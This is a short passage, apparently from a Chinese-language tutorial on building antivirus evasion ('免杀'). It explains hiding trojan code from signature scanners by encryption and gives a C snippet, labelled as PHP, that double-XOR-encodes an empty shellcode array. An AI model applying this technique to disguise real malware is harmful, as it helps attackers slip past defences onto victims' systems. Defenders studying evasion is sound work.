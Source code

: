 ![image.png](assets/1704791749-80a935b67e4974a52b9270204264f337.png)

# 0x03 免杀制作思路

## 1、静态免杀

杀软是通过标记特征进行木马查杀的，我们可以通过加解密的方式来隐藏我们的恶意代码。加密的方式非常多，最常用的是xor双加密，除此之外你还可以使用AES、SM4等对称加密，也可以使用SM9、RSA等非对称加密。  
使用双重xor的方式进行加密，其中`^6^184`，6和184就是两个key。

```php
unsigned char shellcode[] = "";

void encrypt(){
    for(int j = 0;j<sizeof(shellcode);j++)
    {
        *(unsigned char*)&shellcode[j] = *(unsigned char*)&shellcode[j]^6^184;
        printf("\\x%02x",*(unsigned char*)&shellcode[j]);
    }
}
```
